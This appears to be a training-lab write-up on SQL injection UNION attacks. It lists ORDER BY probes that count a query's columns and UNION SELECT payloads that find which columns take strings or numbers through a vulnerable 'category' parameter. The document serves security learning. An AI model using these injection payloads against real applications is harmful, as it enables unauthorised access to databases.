

# Lab: SQL Injection UNION Attack (Finding Column Types)

## Vulnerability
The `category` parameter is vulnerable to SQL injection, allowing UNION queries to determine column data types.

## Exploit

### Step 1 — Column count

' ORDER BY 1--

' ORDER BY 2--

' ORDER BY 3-- 

' ORDER BY 4-- (error) 

Confirmed 3 columns.

### Step 2 — Identify column types

' UNION SELECT 'a', NULL, NULL--  
' UNION SELECT NULL, 'a', NULL--  
' UNION SELECT NULL, NULL, 'a'--  

' UNION SELECT 1, NULL, NULL--  
' UNION SELECT NULL, NULL, 1--  

Results:
- Column 1: number  
- Column 2: string  
- Column 3: number  

## Result
Successfully identified column types and displayed the target string.

## Key Point
Correct data types must be used in UNION queries to avoid errors and display results.

## Proof

